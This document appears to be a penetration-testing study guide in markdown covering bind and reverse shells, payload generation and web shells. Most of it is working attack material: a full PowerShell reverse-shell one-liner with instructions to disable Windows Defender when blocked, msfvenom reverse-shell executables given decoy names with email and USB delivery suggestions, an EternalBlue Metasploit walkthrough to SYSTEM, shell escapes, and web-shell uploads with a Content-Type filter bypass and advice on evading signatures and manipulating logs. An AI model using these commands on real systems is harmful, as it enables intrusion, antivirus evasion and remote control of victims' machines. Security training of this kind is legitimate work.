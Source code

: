 # 🐚 Shells & Payloads  
*Delve into the forbidden arts of initial compromise, where whispers in the void become footholds in vulnerable hosts. This module equips the practitioner with eldritch techniques to summon shells and craft payloads—essential rites in breaching the veil between attacker and target, be they Windows or Linux systems.*

> *“To speak with the machine, one must first teach it to listen.”*

<details>
<summary><h1>📌 Shell Basics</h1></summary>

<details>  
<summary><h2>⏩ Bind Shells</h2></summary>

<details>
<summary><h3>Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
nc -lvnp <PORT>
```

**Attack Machine: Connecting to target**  

```bash
nc -nv <IP> <PORT>
```

> **NOTE:**  Know that this is not a proper shell. It is just a Netcat TCP session we have established. We can see its functionality by typing a simple message on the client-side and viewing it received on the server-side.

</details>

<details>
<summary><h3>Establishing a Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <PORT> > /tmp/f
```  

**Attack Machine: Starting Netcat listener**  

```bash
nc -nv <IP> <PORT>
```

> **NOTE:**  Keep in mind that we had complete control over both our attack box and the target system in this scenario, which isn't typical.

</details>

</details>

<details>  
<summary><h2>⏪ Reverse Shells</h2></summary>
<details>
<summary><h3>Basic Reverse Shell with Netcat</h3></summary>  

**Attack Machine: Starting a listener**  

```bash
sudo nc -lvnp <PORT>
```

**Target Machine(Windows - CMD): Connect to the Attack Machine**  
```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

If you get an error like this one:  
```cmd
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
+ CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
+ FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

Disable the antivirus using Powershell
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Re-run the CMD command.

</details>
</details>

</details>

<details>
<summary><h1>📦 Payloads</h1></summary>
<details>
<summary><h3>Metasploit - Example</h3></summary>  

```bash
sudo msfconsole
```

**Inside the MSF Console**  

Searching Within Metasploit  

```bash
msf6 > search smb
```

Selecting an Exploit  

```bash
msf6 > use 56
```

Examining an Exploit's Options  

```bash
msf6 > options
```

Setting Options  

```bash
msf6 > set RHOSTS <TARGET IP>
msf6 > set SMBUser <USER>
msf6 > set SMBPass <PASSWORD>
msf6 > set LHOST <ATTACKER IP>
msf6 > set LPORT <ATTACKER PORT>
msf6 > set PAYLOAD windows/meterpreter/reverse_tcp
```

Exploits Away  

```bash
msf6 > run

# [*] Meterpreter session 1 opened (<ATTACKER IP>:<ATTACKER PORT> -> <TARGET IP>:<TARGET PORT>) at 2025-06-20 10:56:44 -0500

# (Meterpreter 1)(C:\Windows\system32) > 
```

</details>
<details>
<summary><h3>Crafting payloads with MSFvenom</h3></summary>  

**Attack Machine: List Payloads** 

```bash
msfvenom -l payloads
```

**Attack Machine: Building A Stageless Payload** 

```bash
msfvenom -p <PAYLOAD> LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -f <FILE FORMAT> > <OUTPUT FILE>
```

Examples:  

> **Linux:** msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

> **Windows:** msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > GTA_SA.exe  

**Target Machine: Download and execute** 

There are countless ways this can be done. Here are just some of the common ways:

> Email message with the file attached.  

> Download link on a website.  

> Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).  

> Via flash drive as part of an onsite penetration test.  

The payload in this form would almost certainly be detected by Windows Defender AV.


</details>
</details>


<details>
<summary><h1>🪟 Windows Shells</h1></summary>  
<details>
<summary><h3>Infiltrating Windows</h3></summary>  
<details>
<summary><h4>Enumerating Windows & Fingerprinting Methods</h4></summary>  

When performing ICMP-based host discovery, Windows systems typically respond with one of these ICMP reply codes:

* Code 128: Standard response (most common)

* Code 32: Alternate response variant

These reply codes serve as reliable indicators of an active Windows host when conducting ping sweeps or network reconnaissance.  

**Attack Machine:** Ping target
```bash
ping <TARGET IP> (<TARGET IP>): 56 data bytes
64 bytes from <TARGET IP>: icmp_seq=0 ttl=128 time=102.920 ms
64 bytes from <TARGET IP>: icmp_seq=1 ttl=128 time=9.164 ms
64 bytes from <TARGET IP>: icmp_seq=2 ttl=128 time=14.223 ms
64 bytes from <TARGET IP>: icmp_seq=3 ttl=128 time=11.265 ms
```

**Attack Machine:** Initialize an OS Identification scan against our target  

```bash
sudo nmap -v -O <TARGET IP>
```

**Attack Machine:** For each port Nmap sees as up, it will attempt to connect to the port and glean any information it can from it.  

```bash
sudo nmap -v <TARGET IP> --script banner.nse
```

> The examples shown above are just a few ways to help fingerprint and determine if a host is a Windows machine. It is by no means an exhaustive list, and there are many other checks you can do.

</details>

<details>
<summary><h4>Payload Types to Consider</h4></summary>

**DLLs:** Dynamic Link Libraries (DLLs) are shared resource files in Microsoft Windows that allow multiple programs to access common code and data simultaneously. Attackers can exploit these files by either injecting a malicious DLL or hijacking a vulnerable system library, enabling privilege escalation to SYSTEM level or bypassing User Account Control (UAC) security measures.

**Batch:** Text-based DOS scripts used by system administrators to automate multiple tasks through the command-line interpreter (CLI).

**VBS:** A lightweight scripting language derived from Microsoft’s Visual Basic. While historically used for client-side web scripting to enable dynamic content, modern browsers have largely deprecated VBS due to security concerns.

Primarily observed in:

* Phishing campaigns (e.g., malicious macros in Office documents)

* Social engineering attacks (e.g., tricking users to enable script execution)

* Legacy system maintenance (rare edge cases)

> **Security ** Execution typically requires explicit user interaction (e.g., enabling macros, clicking embedded objects).

**MSI:** MSI files contain installation instructions and components for Windows applications. Attackers can exploit this system by:

1. Creating malicious MSI packages containing payloads

2. Delivering them to target systems

3. Executing them via the Windows Installer service (msiexec.exe)

This technique can provide:

* Elevated privileges (often SYSTEM-level access)

* Persistent reverse shells

* Bypass of some security controls

**Powershell:** PowerShell serves as both an interactive shell and powerful scripting language, offering extensive capabilities for offensive security operations:

Key Advantages:

* Native Windows integration (no additional dependencies)

* Deep system access (Windows Management Instrumentation, .NET integration)

* Flexible in-memory execution (evades disk-based detection)

</details>

<details>
<summary><h4>Procedures for Payload Generation, Transfer, and Execution</h4></summary>

* [MSFVenom & Metasploit-Framework](https://github.com/rapid7/metasploit-framework): MSF stands as an indispensable tool for penetration testers, offering exceptional versatility across all stages of security assessments. This comprehensive platform enables professionals to conduct host enumeration, craft customized payloads, deploy both public and private exploits, and execute sophisticated post-exploitation activities.

* [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings): Here, you can find many different resources and cheat sheets for payload generation and general methodology.

* [Mythic C2 Framework](https://github.com/its-a-feature/Mythic): Alternative option to Metasploit as a Command and Control Framework and toolbox for unique payload generation.

* [Nishang](https://github.com/samratashok/nishang): Framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.

* [Darkarmour](https://github.com/bats3c/darkarmour): Tool to generate and utilize obfuscated binaries for use against Windows hosts.

</details>
</details>

<details>
<summary><h3>Example Compromise Walkthrough</h3></summary>

**Attack Machine: Enumerate the host**  

```bash
sudo nmap -n -Pn -sS -T4 -sV -sC -A -O --min-rate 5000 <TARGET IP> -oX nmap_target_xml_scan.xml
xsltproc nmap_target_xml_scan.xml -o nmap_target_html_scan.html
```

**Attack Machine: Start Metasploit**  

Open msfconsole and search for the for the identified service.

```bash
msfconsole
```

**Attack Machine: Determine if the targert is vulnerable** 

```bash
msf6 > use auxiliary/scanner/smb/smb_ms17_010 
msf6 > show options
msf6 > set RHOSTS <TARGET IP>
msf6 > run
```

Expected output  

```bash
# [msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_ms17_010) >> run

# [+] <TARGET IP>:445       - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
# [*] <TARGET IP>:445       - Scanned 1 of 1 hosts (100% complete)
# [*] Auxiliary module execution completed
```

The vulnerability assessment indicates a high probability of an EternalBlue exploit working against our target. We'll proceed with configuring the exploit module and payload before initiating the attack.

**Attack Machine: Choose & Configure Our Exploit & Payload**

```bash
msf6 > search eternal
msf6 > use exploit/windows/smb/ms17_010_psexec
msf6 > options
msf6 > set LHOST <ATTACKER IP>
msf6 > set RHOSTS <TARGET IP>
```

Based on prior success rates with the PsExec variant, we'll prioritize this exploit method for initial execution. For this engagement, we've selected a standard Windows Meterpreter reverse TCP payload to maintain operational simplicity.

**Attack Machine: Execute Our Attack**  

```bash
msf6 > run
```

Expected output  

```bash
# [msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_psexec) >> run

# [*] Started reverse TCP handler on <ATTACKER IP>:4444 
# [*] <TARGET IP>:445 - Target OS: Windows Server 2016 Standard 14393
# [*] <TARGET IP>:445 - Built a write-what-where primitive...
# [+] <TARGET IP>:445 - Overwrite complete... SYSTEM session obtained!
# [*] <TARGET IP>:445 - Selecting PowerShell target
# [*] <TARGET IP>:445 - Executing the payload...
# [+] <TARGET IP>:445 - Service start timed out, OK if running a command or non-service executable...
# [*] Sending stage (175174 bytes) to <TARGET IP>
# [*] Meterpreter session 1 opened (<ATTACKER IP>:4444 -> <TARGET IP>:49672) at 2025-06-24 13:13:34 -0400

# (Meterpreter 1)(C:\Windows\system32) > 
```

With an active Meterpreter session established (indicated by the meterpreter > prompt), we now have multiple interaction options.

**Attack Machine: Verify Our Session**  

```bash
getuid
```

Expected output  

```bash
# Server username: NT AUTHORITY\SYSTEM
```

From here, we can utilize Meterpreter to run further commands to gather system information, steal user credentials, or use another post-exploitation module against the host.


**Attack Machine: Identify Our Shell**  
```bash
shell
```

Expected output  

```bash
# Process 4844 created.
# Channel 1 created.
# Microsoft Windows [Version 10.0.14393]
# (c) 2016 Microsoft Corporation. All rights reserved.

# C:\Windows\system32>
```

When we executed the Meterpreter command shell, it started another process on the host and dropped us into a system shell.

</details>

<details>
<summary><h3>CMD or PowerShell</h3></summary>

<details>
<summary><h4>Differences</h4></summary>

# CMD vs PowerShell Comparison

| Feature          | CMD                              | PowerShell                      |
|------------------|----------------------------------|---------------------------------|
| **Origin**       | Original MS-DOS shell            | Designed to expand CMD's capabilities |
| **Command Language** | Native MS-DOS commands (`dir`, `ipconfig`) | Supports both MS-DOS and **.NET cmdlets** (`Get-ChildItem`, `Copy-Item`) |
| **Input/Output** | Text-based                       | **.NET objects** (structured data) |
| **Scripting**    | Basic batch files (`.bat`, `.cmd`) | Advanced scripts (`.ps1`) with loops, modules, and functions |
| **Command History** | **No** session logging | Keeps history of executed commands |
| **Security**     | No Execution Policy restrictions | Restricted by **Execution Policy** (e.g., `Restricted`, `RemoteSigned`) and UAC |
| **Availability** | Works on **all Windows versions** | Only available on **Windows 7+** |
| **Extensibility** | Limited to built-in commands | Supports **custom modules** and cmdlets |


</details>

<details>
<summary><h4>Which one is the right one to use?</h4></summary>

**Use CMD when:**

* You are on an older host that may not include PowerShell.

* When you only require simple interactions/access to the host.

* When you plan to use simple batch files, net commands, or MS-DOS native tools.

* When you believe that execution policies may affect your ability to run scripts or other actions on the host.

**Use PowerShell when:**

* You are planning to utilize cmdlets or other custom-built scripts.

* When you wish to interact with .NET objects instead of text output.

* When being stealthy is of lesser concern.

* If you are planning to interact with cloud-based services and hosts.

* If your scripts set and use Aliases.

</details>

</details>
</details>

<details>
<summary><h1>🐧 Linux/UNIX Shells</h1></summary>  
<details>
<summary><h2>Infiltrating Linux/UNIX</h2></summary>  

**Attack Machine: Enumerate the host**  

```bash
sudo nmap -sS -sV -sC -v -A -O <TARGET IP> --script banner.nse -oX nmap_target_xml_scan.xml

xsltproc nmap_target_xml_scan.xml -o nmap_target_html_scan.html
```

**Attack Machine: Start Metasploit**  

Open msfconsole and search for the for the identified service.

```bash
msfconsole
```

**Attack Machine: Determine an Exploit Path**  

```bash
msf6 > search rconfig
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

**Attack Machine: Configure Exploit Options**  

```bash
msf6 > options
msf6 > set RHOSTS <TARGET IP>
msf6 > set LHOST <ATTACKER IP>
```

**Attack Machine: Execute the Exploit**  
```bash
msf6 > exploit
```

**Attack Machine: Interact With the Shell**  
```bash
shell
```

**Attack Machine: Interact With the Shell**  
```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
```

</details>

<details>
<summary><h2>Spawning Interactive Shells</h2></summary>  

<details>
<summary><h3>Spawn a shell</h3></summary>  

When encountering systems with restricted shell access and no Python interpreter, we should be prepared with alternative methods to escalate to an interactive shell. Several reliable techniques exist for this common post-exploitation scenario:

**/bin/sh**

This command will execute the shell interpreter specified in the path in interactive mode (-i).

```bash
/bin/sh -i
# sh: no job control in this shell
```

**Perl**

If the programming language Perl is present on the system, these commands will execute the shell interpreter specified.

```bash
perl —e 'exec "/bin/sh";'
```

```bash
perl: exec "/bin/sh";\
# This command should be run from a script.
```

**Ruby**

When Ruby is available on a target system, the following command can execute a system shell:

```bash
ruby: exec "/bin/sh"
# This command should be run from a script.
```

**Lua**

When Lua is available on a target system, the os.execute() function can be leveraged to spawn system shells. The most reliable approach uses absolute paths to avoid dependency on environment variables:

```bash
lua: os.execute('/bin/sh')
# This command should be run from a script.
```

**AWK**

AWK is a powerful pattern scanning and processing language with C-like syntax, commonly available on UNIX/Linux systems. AWK also provides functionality that can be leveraged to establish interactive shell sessions in security contexts.

```bash
awk 'BEGIN {system("/bin/sh")}'
```

**Find**

Find is a command present on most Unix/Linux systems widely used to search for & through files and directories using various criteria.

```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

**Exec**

The find command's -exec parameter can directly invoke a shell interpreter, but this method is contingent on locating the specified file - if the search fails, no shell session will be established.

```bash
find . -exec /bin/sh \; -quit
```

**VIM**

Yes, we can set the shell interpreter language from within the popular command-line-based text-editor VIM. This is a very niche situation we would find ourselves in to need to use this method, but it is good to know just in case.

Vim To Shell  

```bash
vim -c ':!/bin/sh'
```

Vim Escape  
```bash
vim
:set shell=/bin/sh
:shell
```

</details>

<details>
<summary><h4>Execution Permissions</h4></summary>  

Permissions
```bash
ls -la <PATH>
```

Sudo
```bash
sudo -l
```

> Not only will considering permissions allow us to see what commands we can execute, but it may also start to give us an idea of potential vectors that will allow us to escalate privileges.

</details>

</details>

</details>

<details>
<summary><h1>🌐 Web Shells</h1></summary>  

A web shell provides browser-based command execution on a web server's underlying operating system, frequently serving as the initial persistence mechanism in web application attacks. This foothold often enables subsequent upgrades to fully interactive reverse shells.

In external penetration testing engagements, the most prevalent initial access vectors include:

* Web application vulnerabilities (file upload flaws, SQL injection, RFI/LFI, command injection)

* Credential-based attacks against exposed services (RDS, VPN portals, Citrix, OWA) leveraging Active Directory authentication

* Social engineering campaigns

Web applications typically constitute the largest exposed attack surface during external assessments. Common findings include unsecured file upload functionality accepting malicious PHP, JSP, or ASP.NET web shells.

<details>
<summary><h2>Laudanum</h2></summary>  

Laudanum is a curated collection of pre-built injection files designed for web application penetration testing. This repository provides security professionals with:

**Key Capabilities:**

* Immediate reverse shell establishment

* Browser-based command execution on compromised hosts

* Cross-language support (ASP, ASPX, JSP, PHP, etc.)

**Operational Value:**

* Rapid deployment during security assessments

* Multiple language support for diverse web environments

* Pre-tested payloads reducing setup time

<details>
<summary><h3>Installation</h3></summary>  

**Clone the repository**  

```bash
sudo git clone https://github.com/jbarcia/Web-Shells.git /usr/share/laudanum
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

The Laudanum toolkit is typically pre-installed at the following location:

```bash
/usr/share/laudanum
```

For most of the files within Laudanum, you can copy them as-is and place them where you need them on the victim to run.

**Move a Copy for Modification**
```bash
cp /usr/share/laudanum/aspx/shell.aspx ./shell.aspx
```

**Modify the Shell for Use**

Add your IP address to the allowedIps variable

```bash
nano ./shell.aspx
```

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

You may run into some implementations that randomize filenames on upload that do not have a public files directory or any number of other potential safeguards.
With this particular web application, our file went to _URL\\files\shell.aspx_ and will require us to browse for the upload by using that \ in the path instead of the / like normal.

**Shell Success** 

We can now utilize the Laudanum shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>Antak Webshell</h2></summary>  

Antak is an ASP.NET web shell included in the Nishang framework, an offensive PowerShell toolkit designed for penetration testing across all engagement phases.

**Key Features:**

* PowerShell Integration: Executes commands directly via PowerShell, ideal for Windows server exploitation

* User Interface: PowerShell-themed UI for seamless interaction

* Operational Flexibility: Supports post-exploitation activities within compromised environments

**Advantages in Engagements:**

* Native compatibility with Windows environments

* Leverages PowerShell’s extensive system access

* Maintains low visibility when properly configured

<details>
<summary><h3>Installation</h3></summary>  

The Antak script can be found at the following location:

```bash
/usr/share/nishang/Antak-WebShell
```

Or in this [file](../scripts/shells/antak.aspx) included in this repository.

**Clone the complete nishang repository**
```bash
sudo git clone https://github.com/samratashok/nishang.git /usr/share/nishang/
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

**Move a Copy for Modification**
```bash
cp /usr/share/nishang/Antak-WebShell/antak.aspx ./shell.aspx
```

**Modify the Shell for Use**

Always configure authentication credentials for your web shell to prevent unauthorized access.

> **Note:** It can be prudent to remove the ASCII art and comments from the file. These items in a payload are often signatured on and can alert the defenders/AV to what you are doing.

```bash
nano ./shell.aspx
```

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

During file upload exploitation, you may encounter various security measures:

* Randomized filenames

* Non-public upload directories

* Other application-specific protections

Current Engagement Specifics:  

The uploaded web shell (shell.aspx) is accessible at:

```bash
URL\files\shell.aspx
```

> **Note:** This path requires Windows-style backslashes (\) rather than standard forward slashes (/).

**Shell Success** 

We can now utilize the antak shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>PHP Web Shells</h2></summary>  

We will be using [WhiteWinterWolf's PHP Web Shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/tree/master). We can download this or copy and paste the source code into a .php file.

<details>
<summary><h3>Installation</h3></summary>  

The script can be found [here](../scripts/shells/webshell.php) or cloning WhiteWinterWolf's [repository](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/tree/master).

**Clone the complete nishang repository**  

```bash
sudo git clone https://github.com/WhiteWinterWolf/wwwolf-php-webshell.git /usr/share/wwwolf-php-webshell/
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

**Proxy Settings**

To intercept web traffic through Burp Suite:

1. Launch Burp Suite

    * Ensure the proxy listener is active (default: 127.0.0.1:8080)

2. Configure Browser Proxy Settings

    * Navigate to your browser's network/proxy configuration

    * Enter the following values:

    ```bash
    IP Address/Host: 127.0.0.1  
    Port: 8080
    ```

    * Disable any SSL/TLS verification warnings (for testing environments only)

3. Verification

    * Visit any HTTP page to confirm traffic appears in Burp's Proxy → Intercept tab

> **Note:** Our goal is to change the content-type to bypass the file type restriction in uploading files to be "presented" as something else so we can navigate to that file and have our web shell.

**Bypassing the File Type Restriction**  

To circumvent file type restrictions, we'll manipulate the Content-Type header:

1. Header Modification

    * Change Content-Type: application/x-php → Content-Type: image/gif

    * This exploits potential server-side validation flaws

2. Execution

    * After modification, select Forward in Burp Suite

    * The server may now accept the .php file due to mismatched MIME verification

3. Considerations

    * Effectiveness depends on server validation methods

    * Works against filters checking only Content-Type (not file signatures)

    * Often combined with filename obfuscation (e.g., shell.php.gif)

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

During file upload exploitation, you may encounter various security measures:

* Randomized filenames

* Non-public upload directories

* Other application-specific protections

Current Engagement Specifics:  

The uploaded web shell (shell.aspx) is accessible at:

```bash
URL\files\shell.aspx
```

**Shell Success** 

We can now utilize the antak shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>Considerations when Dealing with Web Shells
</h2></summary>  

When employing web shells during engagements, testers should account for the following challenges:

1. Persistence Limitations

    * Automated file cleanup processes may remove deployed shells after a set duration

2. Functional Constraints

    * Restricted OS interaction (e.g., limited file system navigation)

    * Command chaining failures (e.g., whoami && hostname may not execute properly)

    * Reduced stability in non-interactive environments

3. Forensic Footprint

    * Higher likelihood of leaving detectable artifacts (logs, files, etc.)

**Engagement-Specific Tradecraft**  

For black box or evasive assessments:

* Prioritize stealth techniques to avoid detection

* Mirror realistic adversary tradecraft, including:

    * Log manipulation

    * Timed execution to blend with normal traffic

    * Use of encrypted or obfuscated channels

* Balance operational security with testing objectives to properly evaluate the client's detection capabilities

</details>

</details>

---

📘 **Next step:** Continue with [METASPLOIT FRAMEWORK](./06-metasploit-framework.md)
